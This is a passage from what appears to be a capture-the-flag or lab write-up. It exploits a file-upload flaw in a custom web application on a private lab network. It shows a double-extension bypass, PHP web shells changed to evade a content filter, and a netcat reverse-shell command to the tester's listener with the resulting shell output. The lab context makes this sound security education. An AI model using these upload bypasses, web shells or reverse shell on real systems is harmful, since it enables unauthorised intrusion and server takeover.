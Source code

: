 When uploading a correct image, I noticed a cookie was set: <code>trypios=246f7045b13ca34bd0fb443a038605de</code>. And when I looked at the image source, which I should have done in the first place, it looked like this: <code>images/246f7045b13ca34bd0fb443a038605de.png</code>. 

Now I know where to access my uploaded files, but I still couldn't upload any PHP file. I remembered the mission briefing that stated this is a custom application and I thought there might be a filter that could catch the reverse shell, so I wrote a one line PHP script that simply echoes back a message. Thought it might be deemed harmless enough if there is a filter in place. And I finally managed to fool the application into uploading it by simply giving it a double extension of <code>.png.php</code> (something that I had tried before with the reverse shell and it got caught). 

However, after successfully uploading it, my "cool image" wasn't displayed at all, and it didn't exist in the source either. I navigated directly to where it should be (based on the cookie value), which in my case was at http://192.168.80.160:8880/images/178eaa4e889ab53ce844344ffc945171

And boom! The string "RCE possible" was displayed, which is exactly what I had my script outputting! The key takeaway here was that **the file upload vulnerability was easily exploited by adding a double extension, but there was also a filter in place that flagged certain PHP code and prevented the upload**. Because I could get code execution with a simple echo script, but not with the reverse shell.

With this information, I made another simple script to see if I can get command execution on the target:

``` php
<?php
echo exec($_GET['cmd']);
?>
```

When I tried uploading it...again the naughty message! Clearly some filtering is in place. I modified it again to:

``` php
echo exec('whoami');
```

It got uploaded without a problem and it displayed www-data when I went to it. So it appears that $_GET triggered the filter. I tried again, this time with $_REQUEST:

``` php
echo exec($_REQUEST['cmd']);
```

And the filter didn't trigger! I went to it and passed the *pwd* command and success! It displayed /var/www/images. So command execution on the host finally achieved. I tweaked it a bit to give me a reverse shell, because it would be inconvenient to navigate the filesystem in its current state. So I had netcat listen on my 5555 port and then sent a shell from the remote host with <code>cmd=nc -c /bin/sh 192.168.80.158 5555</code>

Now that I'm the system, time to look around for the secret message:

``` plain
root@pwnbox:~#nc -vvnlp 5555
listening on [any] 5555 ...
connect to [192.168.80.158] from (UNKNOWN) [192.168.80.160] 49553
ls /home
bob
ls /home/bob/
Documents
public_html
```
